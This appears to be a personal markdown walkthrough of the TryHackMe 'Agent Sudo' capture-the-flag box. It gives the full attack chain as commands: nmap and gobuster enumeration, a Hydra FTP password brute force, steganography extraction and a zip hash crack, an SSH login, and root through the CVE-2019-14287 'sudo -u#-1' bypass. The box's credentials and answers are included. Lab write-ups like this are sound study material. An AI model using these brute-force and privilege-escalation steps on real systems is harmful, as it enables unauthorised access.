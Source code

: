 # Boot2Root
<details>
<summary>
  Agent Sudo (THM)
</summary>



---

**Target:** 10.10.82.121

## **Nmap Scan**

**Command:**
```bash
nmap -vv -sS -sV -sC -oN nmap_out.txt 10.10.82.121
```

**Results:**
```
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 63 vsftpd 3.0.3
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
```

## **GoBuster Scan**

**Command:**
```bash
gobuster dir -e -u http://10.10.82.121 -w /home/iftx/Desktop/AgentSudo/wordlist/common.txt -x .php,.txt,.js,.html
```

**Result:**
```
http://10.10.82.121/index.php            (Status: 200) [Size: 218]
```

**Finding:** Change User-Agent to agent 'C'.

**Response:**
```
Attention chris,
Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!
From,
Agent R
```

## **Hydra Brute Force**

**Command:**
```bash
sudo hydra -l chris -P /home/iftx/Desktop/AgentSudo/wordlist/rockyou.txt 10.10.82.121 ftp
```

**Result:**
```
[21][ftp] host: 10.10.82.121   login: chris   password: crystal
```

## **FTP Access & File Download**

**Commands:**
```bash
ftp 10.10.82.121
mget *
```

**Downloaded Files:**
- To_agentJ.txt
- cute-alien.jpg
- cutie.png

## **Steganography Analysis**

### **Extracting Data from Images**

#### **Binwalk**
```bash
binwalk -e cutie.png
```
**Extracted File:** To_agentR.txt (Encrypted ZIP)

#### **Cracking ZIP Password with John the Ripper**
```bash
zip2john 8702.zip > zip_hash
john zip_hash
john zip_hash --show
```
**Password:** alien

**Message from To_agentR.txt:**
```
Agent C,
We need to send the picture to ‘QXJlYTUx’ as soon as possible!
By,
Agent R
```

**Decoding Base64:**
```bash
echo QXJlYTUx | base64 -d
```
**Decoded Value:** Area51

#### **Steghide Extraction**
```bash
steghide extract -sf cute-alien.jpg
```
**Password:** Area51

**Extracted message.txt:**
```
Hi james,
Glad you find this message. Your login password is hackerrules!
Your buddy,
chris
```

## **SSH Login**

```bash
ssh james@10.10.82.121
```
**Credentials:**
```
Username: james
Password: hackerrules
```

## **Privilege Escalation**

### **Checking Sudo Version**
```bash
sudo --version
```
**Result:** Sudo version 1.8.21p2 (CVE-2019-14287 vulnerability found)

### **Exploitation**

```bash
sudo -u#-1 /bin/bash
```

**Root Access Achieved!** ✅

---

**End of Walkthrough.**


</details>

